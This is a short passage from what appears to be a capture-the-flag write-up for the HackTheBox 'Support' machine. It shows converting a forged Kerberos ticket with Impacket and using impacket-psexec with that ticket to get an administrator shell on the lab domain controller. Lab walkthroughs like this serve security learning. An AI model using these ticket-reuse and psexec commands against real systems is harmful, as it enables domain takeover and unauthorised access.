 Take this base64 hash:

```
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':
```

Trim the spaces, decode and do:

```bash
Impacket-ticketConverter ticket_decoded.kirbi ticket.ccache
```

Add dc.support.htb to /etc/hosts

```bash
export KRB5CCNAME=ticket.ccache
```

```bash
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

<figure><img src="../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>
